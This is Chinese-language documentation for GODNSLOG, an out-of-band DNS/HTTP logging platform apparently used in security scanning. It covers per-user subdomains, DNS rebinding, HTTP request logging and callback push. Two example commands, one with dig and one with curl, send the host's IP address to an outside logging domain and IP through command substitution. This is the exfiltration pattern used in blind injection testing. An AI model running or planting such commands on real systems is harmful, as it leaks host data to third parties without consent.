 # 简介

GODNSLOG功能特性:

- 多用户
- DNSLOG
- HTTPLOG 记录
- DNS Rebinding
- 记录结果推送


每一个`GODNSLOG`用户会分配一个唯一的域名，域名前缀为`shortId`是godnslog平台的唯一用户标识。 `安全设置`页面中如下图

![](https://s1.ax1x.com/2020/08/31/dXPXGR.png)

`bkkpdcy7lo84.godnslog.com`是给当前用户分配的唯一域名，`bkkpdcy7lo84`为`shortId`区分用户, 三级域名`*.bkkpdcy7lo84.godnslog.com`下所有DNS请求记录均会被记录下来，`*`字段由用户自定义，建议跟扫描ID对应起来，用来关联扫描结果。 


## DNS LOG功能

每个用户分配一个唯一的三级域名，该域名或其子域名的所有解析记录均会被记录。
请求记录超过设置的最长时间会被自动清理，自动清理时间设置范围是1-48小时


```bash
dig `/sbin/ifconfig eth0|grep inet|grep -v 127.0.0.1|grep -v inet6|awk '{print $2}'|tr -d "addr:"`.ktqlujjpgc4j.godnslog.com
```

系统生成域名为`{$variable}.ktqlujjpgc4j.godnslog.com`，其中`ktqlujjpgc4j`是用户唯一shortId，`{$variable}`为用户自定义变量


![](https://s1.ax1x.com/2020/08/31/dXPba4.png)


DNSLOG 记录内容包含以下字段：
- domain
- IP
- 记录时间

请求记录超过设置的最长时间会被自动清理，自动清理时间设置范围是1-48小时


## DNS Rebinding

详见rebinding页面[](/document/rebinding)

## HTTP LOG功能

GODNSLOG 的`/log/`接口提供了HTTPLOG的功能，访问`http://${IP}/log/${shortId}/${variable}`的记录都会被记录下来

记录内容包含以下字段:

- IP
- Method
- Path
- User-Agent
- Content-Type 类型
- Data body数据
- 记录时间

```bash
curl http://100.100.100.100/log/ktqlujjpgc4j/`/sbin/ifconfig eth0|grep inet|grep -v 127.0.0.1|grep -v inet6|awk '{print $2}'|tr -d "addr:"`
```
请求记录超过设置的最长时间会被自动清理，自动清理时间设置范围是1-48小时

![](https://s1.ax1x.com/2020/08/31/dXiiIH.png)

## 主动推送

在配置->系统->基础设置中填写callback，GODNSLOG会在接收到DNSLOG或者HTTPLOG时向此回调地址主动推送本次日志记录

![](https://s1.ax1x.com/2020/08/31/dXicy6.png)

## 编辑文档

文档目录位于`$SRC/frontend/src/md/`目录下，通过raw-loader加载，修改对应的markdown页面内容即可更新，欢迎大家提交PR。


## 致谢

GODNSLOG在设计中大量参考了[CEYE.IO](http://ceye.io)，包括本文档的内容也是，在此向`CEYE.IO`平台致敬。

[CEYE.IO](http://ceye.io)
[dnslog](https://github.com/fanjq99/dnslog)
